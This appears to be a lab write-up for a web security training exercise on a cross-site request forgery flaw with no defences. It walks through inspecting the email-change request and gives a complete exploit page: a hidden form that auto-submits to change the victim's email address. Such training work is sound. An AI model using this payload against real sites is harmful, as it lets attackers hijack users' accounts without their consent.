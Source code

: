 
# CSRF vulnerability with no defenses

## What do we know?
- site is vulnerable to Cross Site Request Forgery attack
- there are no defences against it

## What do we have to do?
- change viewer's email address

## Solution:
Firstly I had logged in to website with given credentials and I tried changing my password to see how website handles this interaction.
In Burp Suite I saw that website sends POST request to the server with body containing `email=myemail%40m`.

At this point in time i knew that all I had to do is: run script from my website, which sends similar request to the server, but with new email address.

I went to exploitation server and created simple website containing malicious code.

## Final payload looks like this:
File:

`/exploit.html`

Head:

`HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8`

Body: 
```
<html>
  <body>
    <form action="https://"lab-id-here".web-security-academy.net/email/change-email" method="POST">
      <input type="hidden" name="email" value="new@email" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html> 
```
